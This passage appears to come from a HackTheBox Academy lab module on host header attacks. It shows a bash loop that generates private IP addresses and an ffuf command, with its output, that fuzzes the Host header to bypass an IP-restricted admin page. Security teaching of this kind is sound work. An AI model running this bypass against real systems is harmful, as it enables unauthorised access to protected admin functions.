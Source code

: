 ![image](https://academy.hackthebox.com/storage/modules/189/hostheader/authbypass_3.png)

## Fuzzing

If the web application accepts only specific IPs of an internal network, manual testing is impossible because of the large number of IP private addresses. However, we can fuzz the host header to check if we can bypass the authentication check. For instance, if we want to create a wordlist of the `192.168.0.0-192.168.255.255` private IP address range, we could use a bash script similar to the following:

```bash
for a in {1..255};do
    for b in {1..255};do
        echo "192.168.$a.$b" >> ips.txt
    done
done

```

We can then use a fuzzer like [ffuf](https://github.com/ffuf/ffuf) to fuzz the host header for IP addresses that bypass the host header check:

```shell
ffuf -u http://IP:PORT/admin.php -w ips.txt -H 'Host: FUZZ' -fs 752

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://IP:PORT/admin.php
 :: Wordlist         : FUZZ: ips.txt
 :: Header           : Host: FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 752
________________________________________________

192.168.178.28          [Status: 200, Size: 747, Words: 49, Lines: 36, Duration: 0ms]
192.168.178.32          [Status: 200, Size: 747, Words: 49, Lines: 36, Duration: 0ms]
192.168.178.156         [Status: 200, Size: 747, Words: 49, Lines: 36, Duration: 0ms]

```
